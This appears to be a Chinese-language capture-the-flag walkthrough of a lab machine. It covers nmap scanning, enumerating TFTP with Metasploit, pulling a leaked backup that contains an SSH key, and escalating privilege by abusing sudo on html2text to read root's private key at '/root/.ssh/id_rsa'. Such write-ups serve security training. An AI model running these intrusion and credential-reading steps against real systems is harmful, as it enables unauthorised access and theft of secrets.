## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/VTN6QXXPHM#meCFoaXjs2JI)




## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```



创建文件夹，用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```



确定靶机ip：

192.168.1.8


#### 端口扫描

```
nmap --min-rate 10000 -p- -sT 192.168.1.8 -oA ./nmapscan/ports
```



开放了：

- 22 ssh
- 80 http


#### 提取端口信息

```
ports
```




#### 详细结果扫描

```
nmap -sCV -O -p 22,80 192.168.1.8 -oA ./nmapscan/detail
```



分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- Debian系统


#### UDP扫描

```
nmap -sU --top-ports 20 192.168.1.8 -oA nmapscan/udp
```



分析：

- 69 tftp 可能开放


### 80端口

#### 访问192.168.1.8



```
Hello worker!
It has sensitive exposed files, fix it as soon as possible.

IT Department

你好，工作人员！
有敏感的暴露文件，请尽快修复。

IT 部门
```

提示存在敏感文件泄露

查看源码，无信息


#### dirsearch进行目录扫描

```
dirsearch -u http://192.168.1.8
```



无结果


#### gobuster进行目录扫描

```
gobuster dir -u http://192.168.1.8 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```



gobuster无结果


80端口无线索，可能是tftp中存在文件泄露


### 69端口

#### 利用msfconsole枚举tftp中的文件

```
msfconsole
search auxiliary/scanner/tftp
```





```
use 2
show options
set rhosts 192.168.1.8
run
```



得到一个文件名

- backup-config


#### 连接tftp下载文件

```
tftp 192.168.1.8
get backup-config
quit
```




#### 查看backup-config



pk，zip文件

```
file backup-config
```



确定是zip

解压

```
unzip
ls
cd backup
ls
```






存在一个私钥和一个ssh配置文件


#### 查看ssh配置文件

```
cat sshd_config
```



最下面存在一个用户名

- boris

也就是我们可以尝试用私钥登录该用户


### 22端口

#### 修改私钥文件权限




#### ssh连接

```
ssh boris@192.168.1.8 -i id_rsa
```



成功


## 提权

### 得到第一个flag

```
ls
cat user.txt
```




### 执行sudo -l

```
sudo -l
```



可以无密码执行html2text


### 查看html2text的说明文档

```
man html2text > 1
cat 1
```



也就是我们可以利用html2text配合sudo权限读取任意文件


### 读取root用户私钥

```
sudo html2text /root/.ssh/id_rsa
```



保存到本地


### 修改私钥文件权限

```
chmod +600 root_id_rsa
```


### ssh登录root用户

```
ssh root@192.168.1.8 -i root_id_rsa
```



成功


### 得到第二个flag

```
cd /root
ls
cat r000000000000000000000000000000t.txt
```

